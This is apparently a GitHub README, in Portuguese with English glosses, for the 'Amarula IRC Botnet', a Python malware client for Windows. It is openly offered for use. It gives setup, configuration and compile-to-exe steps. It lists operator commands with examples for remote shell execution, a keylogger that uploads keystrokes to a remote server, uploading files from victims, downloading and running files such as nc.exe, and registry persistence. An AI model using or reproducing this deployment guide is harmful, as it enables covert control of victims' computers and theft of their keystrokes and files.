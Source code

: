 # Amarula IRC Botnet v1.0
<h4> Abacatch Version </h4>


Botnet client feito em **Python 2.7** *(written in Python 2.7)* <br>
Testado em: **Windows XP, 8, 10**, *(tested on)*<br>
Escrito por: **Carlos Néri Correia** *(coded by)* <br>
Versão: **1.0** *(version)*

## Como funciona? *(how it works)*
O Amarula IRC Botnet é um *botnet client* codado em Python 2.7. O malware nada mais é do que um cliente IRC, especialmente construído, que se conecta a um server IRC e entra em um canal como se fosse um usuario comum.
O Administrador, por sua vez, também estará conectado ao canal, mas através de um programa de cliente IRC normal (como o Hexchat), de forma que, toda vez que o Adm envia uma mensagem para o canal, o BOT interpreta essa mensagem como um comando a ser executado no sistema. São diversas as vantagens de administrar os BOTs através do IRC - Os servers são ativos 24h, não é necessário abrir portas no PC, o IRC é um protocolo teoricamente confiável, entre outras.

## Funções *(features)*
- Executar comandos shell *(shell command execution)* <br>
- Keylogger - Captura de teclas digitadas pelo cliente em tempo real *(real-time keylogging)* <br>
- Listar diretório atual do bot *(list current working directory)* <br>
- Listar todos os arquivos de um *diretorio (list all directory files)* <br>
- Obter ip local e externo do bot *(get local and WAN bot IP)* <br>
- Download de arquivos da web via HTTP *(HTTP web downloading)* <br>
- Upload de arquivos para servidor web via HTTP *(upload bot files to web server)* <br>
- Envio de logs para servidor remoto *(send logs to remote server)* <br>
- Deletar arquivos no BOT *(delete files)* <br>
- Executar arquivos no BOT *(run files)*
- Persistência *(persistence)*<br>

## Instalação *(install)*
Faça o download do ZIP ou clone o repositório:
    
	$ git clone https://github.com/hackerama/Amarula-Python-Botnet.git

Algumas bibliotecas do python são requeridas:   
    
	$ pip install requests
	$ pip install pypiwin32

A biblioteca pyHook, também é exigida. abaixo o link para baixar o executável de instalação.

**Download pyHook**
https://sourceforge.net/projects/pyhook/

## Configuração *(setup)*
Algumas variáveis precisarão ser definidas ou alteradas, para que a conexão do BOT com o IRC seja feita corretamente. <br>
Toda a administração dos BOTs será feita através de um cliente IRC. O Administrador enviará comandos para o canal onde os BOTs estarão conectados e intrepretarão as mensagens enviadas como comandos. 

***VARIÁVEIS:*** *(variables)* <br>
![Screenshot](https://preview.ibb.co/j7QStm/variables.png)

***ircServer*** *(sets IRC server address)* <br>
Endereço do servidor IRC ao qual o BOT irá se conectar. <br>

***ircPwdCha*** *(sets IRC channel password)*<br>
Define o password do canal IRC ao qual o bot irá se conectar. <br>
Caso o canal não possua password, deixar em branco ("") <br>
Importante setar um password no canal para que outras pessoas não entrem e possam controlar os seus bots.

***ircChanne*** *(sets IRC channel)* <br>
Canal do IRC ao qual o bot irá se conectar. <br>
É interpretando as mensagens enviadas para o canal que o BOT irá executar os comandos internamente no cliente.

***botPass*** *(sets password to activate and connect to the BOTS)* <br>
Define um passoword para ativar, conectar e controlar os bots no canal <br>
 
***botAdmi*** *(Admin Name - NOT OBLIGATORY)* <br>
Define um nome pelo qual os zumbis te chamarão <br>
Não é obrigatório. <br>

***urlUpload*** *(Upload page on remote server)* <br>
Página de upload no servidor remoto, para a função de envio remoto. <br>
Será criado um arquivo *capt-(nome do PC).txt* na mesma pasta de upload.php, no servidor.  

***ldir*** *(sets local directory, dropping directory)* <br>
Diretório local, onde será salvo o arquivo de log. <br>
Diretório para o qual o .exe se copia para ser executado em persistência quando a máquina reiniciar.



## Compilar *(compile)*

	$ pyinstaller -w amarula.py --onefile
    
## Controlando os bots *(usage)*

![Screenshot](https://preview.ibb.co/kwPyzR/help.png)

- [help] para listar os comandos disponíveis <br>
		
		$ USAGE: help <nickdobot> <br>
		$ Ex: help DESKTOP-PC-3456

- [dir] para vizualizar o diretorio atual do zumbi <br>
		
		$ USAGE: ls <nickdobot> <br>
		$ Ex: ls DESKTOP-PC-3456

- [ls] para listar o conteudo da pasta atual <br>
		
		$ USAGE: ls <nickdobot> <br>
		$ Ex: ls DESKTOP-PC-3456

- [ip] para mostrar os ips do bot
		
		$ USAGE: ls <nickdobot> 
		$ Ex: ip DESKTOP-PC-3456
	
- [upload] para fazer upload de arquivos do bot
  Será feito o upload para o servidor web definido na variável urlUpload 
		
		$ USAGE: $ USAGE: upload <Arquivo> <nickdobot>
		$ Ex: upload leak.txt DESKTOP-PC-3456

- [download] para baixar arquivos da web para o zumbi
		
		$ USAGE: $ USAGE: download <link> <nickdobot>
		$ Ex: download http://seusite.com/nc.exe DESKTOP-PC-3456

- [run] para executar um programa ou arquivo

		$ USAGE:  run <programa> <nickdobot>
		$ Ex: run calc.exe DESKTOP-PC-3456

- [delete] para excluir arquivos
		
		$ USAGE: delete <arquivo> <nickdobot>
		$ Ex: delete leak.txt DESKTOP-PC-3456

- [start keylog] para ativar o keylogger
  O arquivo de log será upado para o servidor web a cada 100 caracteres digitados. <br>
  Será iniciado um novo processo no sistema do BOT para o keylogger.		

		$ USAGE: keylog start <nickdobot>
		$ Ex: keylog start DESKTOP-PC-3456


- [stop keylog] para desativar o keylogger
		
		$ USAGE: keylog stop <nickdobot>
		$ Ex: keylog stop DESKTOP-PC-3456

- [persistence]   para instalar persistencia no registro do Windows
  Instala a persistencia, iniciando o bot toda vez que o PC do cliente iniciar <br>
		
		$ USAGE: persistence <nickdobot>
		$ Ex: persistence DESKTOP-PC-3456

- [shell] para executar comandos no terminal.
		
		$ USAGE: shell <comando> <nickdobot>
		$ Ex: shell echo HACKED hack.txt && DIR hack.txt DESKTOP-PC-3456
		
- [sair] para que os bots ativos saiam do canal <br>

		$ USAGE: sair		
		
- [sair] matar todos os BOTs ativos <br>
  Todos os zumbis ativos desconectam-se do IRC
		
		$ USAGE: matar		
